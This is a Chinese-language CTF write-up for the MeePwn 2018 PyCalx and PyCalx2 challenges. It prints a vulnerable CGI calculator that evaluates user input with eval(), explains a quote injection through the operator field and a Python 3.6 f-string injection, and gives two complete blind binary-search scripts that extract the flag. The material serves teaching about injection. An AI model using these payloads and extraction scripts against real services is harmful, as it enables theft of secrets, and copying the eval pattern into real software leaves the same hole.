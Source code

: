 ```yaml
---
comment: true
toc: true
mathjax: true
title: Meepwn2018：PyCalx&PyCalx2——Python3的f-string与eval注入
tags: [f-string]
date: 2018-07-19 09:10:50
categories: writeup
---
```


**本文首发 [先知社区](https://xz.aliyun.com/t/2446) ，转载请注明链接。** 

# PyCalx

> This code is supposed to be unexploitable :/ another pyjail?
> [[Source\]](http://178.128.96.203/cgi-bin/server.py?source=1) 
> [Try this ](http://178.128.96.203/cgi-bin/server.py?value1=123&op=%3D%3D&value2=123)or [this](http://178.128.96.203/cgi-bin/server.py?value1=abc&op=%3D%3D&value2=abc) 
> Notice: The flag may contain non alphabetic characters (but still printable)

本题由Python的 `eval()` 函数参数可控且直接拼接引发的注入，采用二分法盲注。

server.py源码如下：

```python
#!/usr/bin/env python
import cgi
import sys
from html import escape

FLAG = open('/var/www/flag', 'r').read()
OK_200 = "some HTML code"
print(OK_200)
arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>' + escape(str(open(__file__, 'r').read())) + '</pre>')

if 'value1' in arguments and 'value2' in arguments and 'op' in arguments:

    def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(', ')', '[', ']', '\'',
                     '"']  # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            print('<center>Invalid value</center>')
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+', '-', '/', '*', '=', '!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)
    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)
    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))
    print(
        '<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>'
    )
    print('>>>> print(' + escape(calc_eval) + ')')
    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print(
                "Invalid"
            )  # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")
    print('>>> </pre></div></div></div>')
```

大意如下：

- cgi会处理source，value1，value2，op四个参数。
- 如果source=1则打印源代码。
- value1，value2，op三个参数都有值时进一步处理。
  - value1，value2至少1个字符，至多64个，且不包含黑名单`()[]'"` 里的字符。
  - op至少1个字符，至多2个，且首字符必须在白名单`+-*/=!` 里。
  - value1,value2要么都是只包含`[0-9]`，要么都包含其他字符。
  - 执行`str(eval(str(repr(value1)) + str(op) + str(repr(value2))))` ，且只有结果是bool值或只包含`[0-9]` 时才会输出。
    - 注：repr返回对象的可打印形式，和反引号包裹效果一致，对大多数类型，他会返有一个字符串，使其可以作为代码直接传入eval执行。

解题思路：`op` 允许两个字符，且第二个字符是任意的，那么如果是一个单引号，就能混淆代码和数据，起到类似SQL注入的效果。

```python
>>> print(str(repr("a"))+str("+")+str(repr("b")))
'a'+'b'
>>> print(str(repr("a"))+str("+'")+str(repr("< b#")))
'a'+''< b#'
```

解题脚本：

```python
import requests, re


def calc(v1, v2, op, s):
    u = "http://178.128.96.203/cgi-bin/server.py?"
    payload = dict(value1=v1, value2=v2, op=op, source=s)
    # print payload
    r = requests.get(u, params=payload)
    # print r.url
    res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
                     r.content)[0].split('\n')[1]
    assert (res != 'Invalid')
    return res == 'True'
    # print r.content


def check(mid):
    s = flag + chr(mid)
    return calc(v1, v2, op, s)


def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
    assert (lo >= 0)
    if hi == None: hi = len(seq)
    while lo < hi:
        mid = (lo + hi) // 2
        # print lo, mid, hi, "\t",
        if check(seq[mid]): hi = mid
        else: lo = mid + 1
    return seq[lo]


flag = ''
v1, v2, op, s = 'x', "+FLAG<value1+source#", "+'", ''

while (1):
    flag += chr(bin_search() - 1)
    print flag
# MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}
```

![1531905259492](1531905259492.png)



# PyCalx2 

> You should solve `PyCalx` first. 
>
> http://206.189.223.3/cgi-bin/server.py?source=1  

`server.py` 只改动了一行代码，将`    op = get_op(arguments['op'].value)` 变成了 `op = get_op(get_value(arguments['op'].value))`  ，也就是说将`op` 参数也进行了黑名单过滤，于是 `op` 的第二个字符就不能是单引号，第一题的方法也就失效了。

结合题目提示和第一题的flag去寻找Python3.6的新特性，用到了这个 ` f-string  ` ，详见[PEP 498 -- Literal String Interpolation](https://www.python.org/dev/peps/pep-0498/) 。简言之就是可以在字符串中方便地直接插入表达式，以`f` 开头，表达式插在大括号`{}` 里，在运行时表达式会被计算并替换成对应的值。

本题主要是利用这个特性在字符串里插入比较的表达式，剩下的就和上题一样了。插法不尽相同，CTF Time上的WP里有这么两种，相信还可以有其他的方法：

```python
>>> str(repr('T'))+str('+f')+str(repr('ru{FLAG<source or 14:x}')) # 14的十六进制表示时'e'
"'T'+f'ru{FLAG<source or 14:x}'"
>>> eval(str(repr('T'))+str('+f')+str(repr('ru{1 or 14:x}')))
'Tru1' # 返回Invalid
>>> eval(str(repr('T'))+str('+f')+str(repr('ru{0 or 14:x}')))
'True'
```

```python
>>> str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{FLAG<source:1}.1}'))
"'Tru'+f'{sys.exit.__name__:{FLAG<source:1}.1}'"
# {FLAG<source:1}的值相当于printf("%1f",FLAG<source)的结果，有0和1两种可能。
#这边sys.exit.__name__等价于字符串'exit'，考虑到已经import escape，直接用escape.__name__也可。
>>> eval(str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{1:1}.1}')))
'True'
>>> eval(str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{0:1}.1}')))
#报错，返回Invalid
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
ValueError: '=' alignment not allowed in string format specifier
>>>
```

解题脚本：

```python
import requests, re


def calc(v1, v2, op, s):
    u = "http://206.189.223.3/cgi-bin/server.py?"
    payload = dict(value1=v1, value2=v2, op=op, source=s)
    r = requests.get(u, params=payload)
    res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
                     r.content)[0].split('\n')[1]
    return res == 'Invalid'


def check(mid):
    s = flag + chr(mid)
    return calc(v1, v2, op, s)


def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
    assert (lo >= 0)
    if hi == None: hi = len(seq)
    while lo < hi:
        mid = (lo + hi) // 2
        if check(seq[mid]): hi = mid
        else: lo = mid + 1
    return seq[lo]


flag = ''
v1, op, v2, s = 'T', "+f", "ru{FLAG<source or 14:x}", 'a'

while (1):
    flag += chr(bin_search() - 1)
    print flag
# MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}
```



![1531905207979](1531905207979.png)